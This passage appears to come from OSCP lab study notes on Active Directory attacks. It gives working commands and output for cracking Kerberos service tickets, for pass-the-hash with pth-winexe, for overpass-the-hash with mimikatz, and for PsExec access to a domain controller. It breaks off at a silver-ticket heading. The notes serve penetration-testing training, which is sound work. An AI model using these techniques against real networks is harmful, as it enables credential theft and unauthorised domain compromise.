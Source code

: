 Now to crack service tickets to find clear-text passwords for service accounts

```sh
~/kerberoast(master*) » python3 tgsrepcrack.py rockyou-20.txt ~/OSCP-excercises/1-40a50000-offsec@HTTP\~CorpWebServer.corp.com-CORP.COM.kirbi                              omar2535@kali


USE HASHCAT, IT'S HELLA FASTER!!


Cracking 1 tickets...
found password for ticket 0: Qwerty09!  File: /home/omar2535/OSCP-excercises/1-40a50000-offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
Successfully cracked all tickets
```

### Pass the Hash

Once the NTLM hash is retrieved, we can construct a pass the hash attack to elevate our priveleges using NTLM authentication.
For example, if our NTLM hash was `2892d26cdf84d7a70e2eb3b9f05c425e`, then our command to pass the hash would be 
```sh
# the following command will launch a rdesktop with that user's hash
# the aad3b435b51404eeaad3b435b51404ee part after the userid means "no password"
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.194.10 cmd 

E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.16299.15]
(c) 2017 Microsoft Corporation. All rights reserved.
C:\Windows\system32>
```

### Overpass the hash

We can bypass NTLM authentication and get a TGT by passing the hash within mimikats like so:

```sh
mimikatz # sekurlsa::pth /user:jeff_admin /domain:corp.com /domain:corp.com /ntlm:2892d26cdf84d7a70e2eb3b9f05c425e /run:PowerShell.exe
```

and a powershell is spawned. To check our kerberos tickets:

```powershell
> klist
```

Now we can log into the domain controller using psexec like so:

```powershell
PS C:\Tools\active_directory> .\PsExec.exe \\dc01 cmd.exe
```

### Creating a silver ticket to authenticate with
